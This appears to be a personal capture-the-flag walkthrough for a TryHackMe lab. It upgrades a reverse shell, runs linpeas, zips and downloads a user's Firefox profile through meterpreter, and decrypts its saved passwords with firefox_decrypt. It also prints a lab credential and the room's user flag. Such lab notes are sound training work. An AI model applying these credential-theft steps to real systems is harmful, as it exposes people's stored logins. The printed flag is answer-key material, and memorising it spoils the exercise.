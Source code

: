 ```

Hence you have to upgrade it.

Usually there's python installed on the box, which allows you to use 
python3 -c "__import__('pty').spawn('/bin/bash')" or similar.

stty -raw echo;fg 

Finally, type reset.

Input your TERM var (usually xterm-256color).
```
![[Pasted image 20231128141312.png]]

This mozilla logs sus to meeeeeee
![[Pasted image 20231128143232.png]]

Today i will make a payload (i.e. meter-preter shell rather than a reverse shell) cuz downloading and uploading is simply that way.

CheatSheets for meterperter
https://docs.rapid7.com/metasploit/manage-meterpreter-and-shell-sessions/

```
/root/TryHackMe/Vulnnet_Endgame/linpeas.sh
```
![[Pasted image 20231204133015.png]]

Finally able to run the linpeas.sh let's see what we can find 
![[Pasted image 20231204133103.png]]

We already know that's there is something suspicious about `.mozilla` folder
Everything else is standard here for a Gnome Desktop home directory.

![[Pasted image 20231204133804.png]]

```
cd .mozilla
ls -la 
du -a .
```
![[Pasted image 20231204133913.png]]

https://support.mozilla.org/en-US/kb/back-and-restore-information-firefox-profiles
https://github.com/unode/firefox_decrypt

```
download ~/home/system/.mozilla/firefox/profiles.ini
```
![[Pasted image 20231204134238.png]]

Run this command in the shell
```
cd /tmp && zip -r moz.zip /home/system/.mozilla
exit
```
![[Pasted image 20231204135100.png]]

```
exit
download /tmp/moz.zip
```
![[Pasted image 20231204135037.png]]

Atacker Machine
```
unzip moz.zip
```
![[Pasted image 20231204135233.png]]

Clone the repositary
```
https://github.com/unode/firefox_decrypt.git
```

```
./firefox_decrypt.py /root/TryHackMe/Vulnnet_Endgame/home/system/.mozilla/firefox
```
![[Pasted image 20231204140659.png]]

I have to see what's the path of the profiles 
![[Pasted image 20231204140948.png]]

```
./firefox_decrypt.py /root/TryHackMe/Vulnnet_Endgame/home/system/.mozilla/firefox/2fjnrwth.default-release
```
![[Pasted image 20231204140930.png]]

```
Website:   https://tryhackme.com
Username: 'chris_w@vulnnet.thm'
Password: '8y7TKQDpucKBYhwsb'
```
It's time for ssh now

I think to keep in mind is that we can't login with the given user but if recall that we have user name system when we got the rev shell so this are the little details we have to keep out eyes open for.
![[Pasted image 20231204141259.png]]

Now again the enumeration step will be the same and will try to get to the root but before that let's pwn the user.txt

![[Pasted image 20231204141505.png]]
```
THM{fb84e79072015186c72ec77ded49a5ff}
```
